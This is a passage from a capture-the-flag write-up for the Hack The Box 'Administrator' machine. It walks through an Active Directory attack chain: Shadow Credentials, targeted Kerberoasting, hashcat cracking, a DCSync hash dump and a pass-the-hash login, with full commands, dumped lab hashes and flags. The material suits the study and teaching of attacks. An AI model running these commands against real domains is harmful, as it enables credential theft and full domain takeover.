We installed `PasswordSafe` to open the `Database` file with the previously cracked `password` and got credentials for `Emily`.

```c
┌──(kali㉿kali)-[~]
└─$ sudo apt-get install passwordsafe
```



| Username | Password                      |
| -------- | ----------------------------- |
| Emily    | UXLCI5iETUsIBoFVTj8yQFKoHjXmb |

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.141.124 -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily\Documents> 
```

## user.txt

With the access to `Emily` we then grabbed the `user.txt`.

```c
*Evil-WinRM* PS C:\Users\emily\Desktop> type user.txt
919cb5957891af72d5d86dc652d378c8
```

## Pivoting (Emily)

A quick look onto the permissions of `Emily` showed that she had `GenericWrite` set onto `Ethan` which could be abused by using `Shadow Credentials` and `Kerberoasting`.



## Privilege Escalation to Ethan

### GenericWrite Abuse (Shadow Credentials & Kerberoasting)

#### Shadow Credentials

First we used `Shadow Credentials` to overtake `Ethan`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Administrator/files]
└─$ ~/opt/10_post_exploitation/pywhisker/pywhisker.py -d "administrator.htb" -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" --target "ethan" --action "add"
[*] Searching for the target account
[*] Target user found: CN=Ethan Hunt,CN=Users,DC=administrator,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: a5837955-70bc-7a7b-6031-5ff2caa09124
[*] Updating the msDS-KeyCredentialLink attribute of ethan
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: JJjP7aHl.pfx
[*] Must be used with password: 1hdnrNBwHxI4HDZNNiMX
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

#### Time Sync with Domain Controller

For the next step we needed to `sync` our local `time` with the `Domain Controller`.

```c
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo ntpdate 10.129.141.161
2024-11-10 14:37:10.289583 (+0100) +25200.920274 +/- 0.045787 10.129.141.161 s1 no-leap
CLOCK: time stepped by 25200.920274
```

#### targetedKerberoast

With the previous step done we proceeded to abuse the `ownership` we set using `Shadow Credentials` onto `Ethan` to perform `Kerberoasting` using `targetedKerberoast`.

- [https://github.com/ShutdownRepo/targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Administrator/files]
└─$ ~/opt/10_post_exploitation/targetedKerberoast/targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$7a9a72aa23260c277dfc4c3b7309ae0b$62c8167c1aadcbc1ef89a4b1be5c19c0e3f88b4adbdb69fb55f286eec8f696da196a252fdd69e72113de9af6bc329d8b5b9ffcbb3de038d771c4c289531c501aa85b394378f0eda1f0a5ae3e75e2503d97ff2b525806f357a8217d02f08915ed7153e11f3f34d8a7a7644327293f462a7ab778c1f42b96bbea3d7f061522fabb242bfc001f9df5fedd71894c71fb4a6ee50e79b79786242dc145d4ba2928ebe0ebf5ea3f801a10368c749eb557e4688515b6543ac55ecc949ed29416428416e9fb46849f9fdc66e1624e0a4ef48a9b68bded34a25856bfa8182ceb31b74b4c9a4e7877d86c86af484e76345bfbe003dc734ea1177e47c7ffc03bfa1498a6cf9515ef649aaee1d23ff9c19e5628e5c8dfec5a8c43f14a7c152268441193518684fa5746dd40dc024a276dc3fff0fcd288da0b3c9a5ce6b7a221e8a07cded3c31d1237e219545feb21509d998086c3c98dd178d8b0c84977d5253b1af867f4823aea03949ea59ba1fee0e86e3ba12b418d67310d15260355d6f1e2b7aab43ae92517e1da3d813340c0d7361ef0fc7054dbf87f40a498b4bfd7905c0014263972952253f25f3571577af3569094c2b3ea2f5a597ff78173f529465e5963fdacc6abc90e172adf34c2b939bda1e1966ce60a8dbd3d5efebda75ad2d1ce041d5ea748a2bab6ebdc52d89e031c7bb84c3c2de9fbe578dfa23b822899914c78446611d196b66728c3456b04f865ba566d95086854440a68cc9bf31ccc35fd82f7ea20b5728fa959e9f5f8782432d99f68d2d622dfd4960c925cdb4191d1884683796ebb9052d48dda50661996fac8928bb98fe1843001860c6faa49ead96b626e2618c61b10416fe50c3a80fcb5d50232ab8ea47d4291a4db3a2123f32d83510a7c14c08844d9a75c135a010d65a91d02e46c3b86f1957dc3e53490857c7c8a5179ae64cc3582fbb7a79f761d1e398fd8068bec3a3702c443b70c6a92a6dfc62ebd7f6fa6f962bbd5131ef2fa6bf0e602b58a5a0ef7f7daf8be32dc56771fb48c99811012b077be190e3fa593e7e22c1932c0062e2bce326da0e2934f0a4134a8e02ff705b8559c7131cee3a509e080c7ac9f80993f1a41da0d6265e283dc27d349ff2c07d14d764799d3c3090627526d1f9fcc2585f078da4e19e161b443a92503e66cdcffcf22442b42df66b037fc9677c7bdff61df8b3a19804edaa4b8167e2ad63495b86aaf47eac01ac0d594f8e15b60fdc3bc190ebf5403dd3ca1113d9c64a7d2df9345e01ce3a15634c5e68a2da4dd23360ed20f04364549c3c8eed0eacaaef51ade1a622c9c58835247b85eefb9078559372200f8b3fc154401fd575ef2fe7a440165d9429942b862e75c268c7f9a078d6d9a7c5a6c30359bc2353860d2537e207fee531a7f237c0774a3f4c8c8ad804966b3cdacac4ad78b3b9bd0597b458dc6986778805bd72ee563af32db61d6d4a640724e8e16a3f5c03ecaae3726d19b6c388b8ff46d70de242fe9f44dc1aba16cd4c3ed284b29542d0bfff7bf501b
[VERBOSE] SPN removed successfully for (ethan)
```

### Why Kerberoasting and not the PKINIT Protocol

As we tried to follow along to use `PKINITtools` to abuse the `PKINIT Protocol` we stumbled upon the following `error message` while using `PKINITtools

- [https://github.com/dirkjanm/PKINITtools](https://github.com/dirkjanm/PKINITtools)

```c
<--- CUT FOR BREVITY --->
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)"
```

The following `article` explains why that does not work. Basically it's because the `Domain Controller` didn't supported `PKINIT`.

- [https://www.cnblogs.com/lisenMiller/p/18019474](https://www.cnblogs.com/lisenMiller/p/18019474)

```c
This meas that the DC does not install or do not support PKINIT protocol.In this case,the obtained certificate cannot be used to obtain TGT or NT hash.
```

Therefore we needed to use `Shadow Credentials` to get `access` to `Ethan` but then using `targetedKerberoast` to easily grab the `ticket` of `Ethan`.

## Cracking the Hash (Ethan)

As last step to `escalate` our `privileges` to `Ethan` we cracked his `hash` using `hashcat`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Administrator/files]
└─$ cat ethan.hash 
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$7a9a72aa23260c277dfc4c3b7309ae0b$62c8167c1aadcbc1ef89a4b1be5c19c0e3f88b4adbdb69fb55f286eec8f696da196a252fdd69e72113de9af6bc329d8b5b9ffcbb3de038d771c4c289531c501aa85b394378f0eda1f0a5ae3e75e2503d97ff2b525806f357a8217d02f08915ed7153e11f3f34d8a7a7644327293f462a7ab778c1f42b96bbea3d7f061522fabb242bfc001f9df5fedd71894c71fb4a6ee50e79b79786242dc145d4ba2928ebe0ebf5ea3f801a10368c749eb557e4688515b6543ac55ecc949ed29416428416e9fb46849f9fdc66e1624e0a4ef48a9b68bded34a25856bfa8182ceb31b74b4c9a4e7877d86c86af484e76345bfbe003dc734ea1177e47c7ffc03bfa1498a6cf9515ef649aaee1d23ff9c19e5628e5c8dfec5a8c43f14a7c152268441193518684fa5746dd40dc024a276dc3fff0fcd288da0b3c9a5ce6b7a221e8a07cded3c31d1237e219545feb21509d998086c3c98dd178d8b0c84977d5253b1af867f4823aea03949ea59ba1fee0e86e3ba12b418d67310d15260355d6f1e2b7aab43ae92517e1da3d813340c0d7361ef0fc7054dbf87f40a498b4bfd7905c0014263972952253f25f3571577af3569094c2b3ea2f5a597ff78173f529465e5963fdacc6abc90e172adf34c2b939bda1e1966ce60a8dbd3d5efebda75ad2d1ce041d5ea748a2bab6ebdc52d89e031c7bb84c3c2de9fbe578dfa23b822899914c78446611d196b66728c3456b04f865ba566d95086854440a68cc9bf31ccc35fd82f7ea20b5728fa959e9f5f8782432d99f68d2d622dfd4960c925cdb4191d1884683796ebb9052d48dda50661996fac8928bb98fe1843001860c6faa49ead96b626e2618c61b10416fe50c3a80fcb5d50232ab8ea47d4291a4db3a2123f32d83510a7c14c08844d9a75c135a010d65a91d02e46c3b86f1957dc3e53490857c7c8a5179ae64cc3582fbb7a79f761d1e398fd8068bec3a3702c443b70c6a92a6dfc62ebd7f6fa6f962bbd5131ef2fa6bf0e602b58a5a0ef7f7daf8be32dc56771fb48c99811012b077be190e3fa593e7e22c1932c0062e2bce326da0e2934f0a4134a8e02ff705b8559c7131cee3a509e080c7ac9f80993f1a41da0d6265e283dc27d349ff2c07d14d764799d3c3090627526d1f9fcc2585f078da4e19e161b443a92503e66cdcffcf22442b42df66b037fc9677c7bdff61df8b3a19804edaa4b8167e2ad63495b86aaf47eac01ac0d594f8e15b60fdc3bc190ebf5403dd3ca1113d9c64a7d2df9345e01ce3a15634c5e68a2da4dd23360ed20f04364549c3c8eed0eacaaef51ade1a622c9c58835247b85eefb9078559372200f8b3fc154401fd575ef2fe7a440165d9429942b862e75c268c7f9a078d6d9a7c5a6c30359bc2353860d2537e207fee531a7f237c0774a3f4c8c8ad804966b3cdacac4ad78b3b9bd0597b458dc6986778805bd72ee563af32db61d6d4a640724e8e16a3f5c03ecaae3726d19b6c388b8ff46d70de242fe9f44dc1aba16cd4c3ed284b29542d0bfff7bf501b
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Administrator/files]
└─$ hashcat -m 13100 -a 0 ethan.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$7a9a72aa23260c277dfc4c3b7309ae0b$62c8167c1aadcbc1ef89a4b1be5c19c0e3f88b4adbdb69fb55f286eec8f696da196a252fdd69e72113de9af6bc329d8b5b9ffcbb3de038d771c4c289531c501aa85b394378f0eda1f0a5ae3e75e2503d97ff2b525806f357a8217d02f08915ed7153e11f3f34d8a7a7644327293f462a7ab778c1f42b96bbea3d7f061522fabb242bfc001f9df5fedd71894c71fb4a6ee50e79b79786242dc145d4ba2928ebe0ebf5ea3f801a10368c749eb557e4688515b6543ac55ecc949ed29416428416e9fb46849f9fdc66e1624e0a4ef48a9b68bded34a25856bfa8182ceb31b74b4c9a4e7877d86c86af484e76345bfbe003dc734ea1177e47c7ffc03bfa1498a6cf9515ef649aaee1d23ff9c19e5628e5c8dfec5a8c43f14a7c152268441193518684fa5746dd40dc024a276dc3fff0fcd288da0b3c9a5ce6b7a221e8a07cded3c31d1237e219545feb21509d998086c3c98dd178d8b0c84977d5253b1af867f4823aea03949ea59ba1fee0e86e3ba12b418d67310d15260355d6f1e2b7aab43ae92517e1da3d813340c0d7361ef0fc7054dbf87f40a498b4bfd7905c0014263972952253f25f3571577af3569094c2b3ea2f5a597ff78173f529465e5963fdacc6abc90e172adf34c2b939bda1e1966ce60a8dbd3d5efebda75ad2d1ce041d5ea748a2bab6ebdc52d89e031c7bb84c3c2de9fbe578dfa23b822899914c78446611d196b66728c3456b04f865ba566d95086854440a68cc9bf31ccc35fd82f7ea20b5728fa959e9f5f8782432d99f68d2d622dfd4960c925cdb4191d1884683796ebb9052d48dda50661996fac8928bb98fe1843001860c6faa49ead96b626e2618c61b10416fe50c3a80fcb5d50232ab8ea47d4291a4db3a2123f32d83510a7c14c08844d9a75c135a010d65a91d02e46c3b86f1957dc3e53490857c7c8a5179ae64cc3582fbb7a79f761d1e398fd8068bec3a3702c443b70c6a92a6dfc62ebd7f6fa6f962bbd5131ef2fa6bf0e602b58a5a0ef7f7daf8be32dc56771fb48c99811012b077be190e3fa593e7e22c1932c0062e2bce326da0e2934f0a4134a8e02ff705b8559c7131cee3a509e080c7ac9f80993f1a41da0d6265e283dc27d349ff2c07d14d764799d3c3090627526d1f9fcc2585f078da4e19e161b443a92503e66cdcffcf22442b42df66b037fc9677c7bdff61df8b3a19804edaa4b8167e2ad63495b86aaf47eac01ac0d594f8e15b60fdc3bc190ebf5403dd3ca1113d9c64a7d2df9345e01ce3a15634c5e68a2da4dd23360ed20f04364549c3c8eed0eacaaef51ade1a622c9c58835247b85eefb9078559372200f8b3fc154401fd575ef2fe7a440165d9429942b862e75c268c7f9a078d6d9a7c5a6c30359bc2353860d2537e207fee531a7f237c0774a3f4c8c8ad804966b3cdacac4ad78b3b9bd0597b458dc6986778805bd72ee563af32db61d6d4a640724e8e16a3f5c03ecaae3726d19b6c388b8ff46d70de242fe9f44dc1aba16cd4c3ed284b29542d0bfff7bf501b:limpbizkit
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator....bf501b
Time.Started.....: Sun Nov 10 14:41:12 2024 (0 secs)
Time.Estimated...: Sun Nov 10 14:41:12 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   576.6 kH/s (2.24ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 6144/14344385 (0.04%)
Rejected.........: 0/6144 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: newzealand -> iheartyou
Hardware.Mon.#1..: Util: 24%

Started: Sun Nov 10 14:41:11 2024
Stopped: Sun Nov 10 14:41:14 2024
```

## Pivoting (Ethan)

At this point we needed to `check` our `data` on `BloodHound` one last time to see that `Ethan` was able to perform a `DCSync` which would gave us the `hash` of `Administrator`.



## Privilege Escalation to SYSTEM
### DCSync as Ethan

With this knowledge we performed the `DCSync` using the `credentials` of `Ethan` and grabbed the `hash` of the `Administrator` as well as the `root.txt`.

```c
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump 'administrator.htb'/'ethan':'limpbizkit'@'dc.administrator.htb'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:8864a202387fccd97844b924072e1467:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:95687598bfb05cd32eaa2831e0ae6850:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385
krbtgt:aes256-cts-hmac-sha1-96:920ce354811a517c703a217ddca0175411d4a3c0880c359b2fdc1a494fb13648
krbtgt:aes128-cts-hmac-sha1-96:aadb89e07c87bcaf9c540940fab4af94
krbtgt:des-cbc-md5:2c0bc7d0250dbfc7
administrator.htb\olivia:aes256-cts-hmac-sha1-96:713f215fa5cc408ee5ba000e178f9d8ac220d68d294b077cb03aecc5f4c4e4f3
administrator.htb\olivia:aes128-cts-hmac-sha1-96:3d15ec169119d785a0ca2997f5d2aa48
administrator.htb\olivia:des-cbc-md5:bc2a4a7929c198e9
administrator.htb\michael:aes256-cts-hmac-sha1-96:b360c36cb6777b8cc3d88ab1aa60f0064e6ea4fc9b9a4ebacf66345118c0e959
administrator.htb\michael:aes128-cts-hmac-sha1-96:bc3c8269d1a4a82dc55563519f16de8b
administrator.htb\michael:des-cbc-md5:43c2bc231598012a
administrator.htb\benjamin:aes256-cts-hmac-sha1-96:a0bbafbc6a28ed32269e6a2cc2a0ccb35ac3d7314633815768f0518ebae6847f
administrator.htb\benjamin:aes128-cts-hmac-sha1-96:426ca56d39fe628d47066fc3448b645e
administrator.htb\benjamin:des-cbc-md5:b6f84a864376a4ad
administrator.htb\emily:aes256-cts-hmac-sha1-96:53063129cd0e59d79b83025fbb4cf89b975a961f996c26cdedc8c6991e92b7c4
administrator.htb\emily:aes128-cts-hmac-sha1-96:fb2a594e5ff3a289fac7a27bbb328218
administrator.htb\emily:des-cbc-md5:804343fb6e0dbc51
administrator.htb\ethan:aes256-cts-hmac-sha1-96:e8577755add681a799a8f9fbcddecc4c3a3296329512bdae2454b6641bd3270f
administrator.htb\ethan:aes128-cts-hmac-sha1-96:e67d5744a884d8b137040d9ec3c6b49f
administrator.htb\ethan:des-cbc-md5:58387aef9d6754fb
administrator.htb\alexander:aes256-cts-hmac-sha1-96:b78d0aa466f36903311913f9caa7ef9cff55a2d9f450325b2fb390fbebdb50b6
administrator.htb\alexander:aes128-cts-hmac-sha1-96:ac291386e48626f32ecfb87871cdeade
administrator.htb\alexander:des-cbc-md5:49ba9dcb6d07d0bf
administrator.htb\emma:aes256-cts-hmac-sha1-96:951a211a757b8ea8f566e5f3a7b42122727d014cb13777c7784a7d605a89ff82
administrator.htb\emma:aes128-cts-hmac-sha1-96:aa24ed627234fb9c520240ceef84cd5e
administrator.htb\emma:des-cbc-md5:3249fba89813ef5d
DC$:aes256-cts-hmac-sha1-96:98ef91c128122134296e67e713b233697cd313ae864b1f26ac1b8bc4ec1b4ccb
DC$:aes128-cts-hmac-sha1-96:7068a4761df2f6c760ad9018c8bd206d
DC$:des-cbc-md5:f483547c4325492a
[*] Cleaning up...
```

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.141.161 -u 'Administrator' -H 3dc553ce4b9fd20bd016e098d2d2fd2e
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```c
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
b315da37a2b217ec60566a10de0abcb3
```
